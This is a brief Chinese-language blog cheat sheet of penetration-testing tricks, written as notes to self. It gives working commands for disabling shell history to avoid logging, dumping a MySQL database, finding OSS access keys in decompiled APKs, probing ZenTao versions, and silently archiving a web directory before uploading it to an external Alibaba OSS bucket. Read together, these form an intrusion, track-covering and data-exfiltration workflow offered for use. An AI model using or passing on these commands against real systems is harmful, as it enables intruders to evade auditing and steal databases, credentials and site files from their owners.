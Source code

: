 ```yaml
---
title: "分享渗透中的小技巧"
---
```


巩固知识，以免忘记
<!--more-->

<h5>关闭.History</h5>

```
unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG
```

<h5>mysql dump脱数据<h5>

```mysql
mysqldump -hdbhost -uroot -pdbpasswd -d dbname >db.sql;
```


<h5>fofa使用中文关键字搜索目标搜不到</h5>
使用html编码后再搜索  https://seo.juziseo.com/tools/entity/

<h5>禅道获取版本号</h5>
index.php?mode=getconfig

<h5>获取oss key</h5>
apk逆向得到class文件，全局搜索OSS_access

<h5>获取进程中文件的具体位置</h5>

```
wmic process where name="qq.exe" get processid,executablepath,name
```

<h5>rar.exe压缩</h5>

```
rar.exe a -ag -k -r -s -ibck c:/programdata/wwww.rar  E:/web
```

<h5>oss传输文件</h5>

```
oss.exe cp c:\programdata\db.rar oss://xxx/xxx -e oss-cn-hongkong.aliyuncs.com -i xxx -k xxxx
```

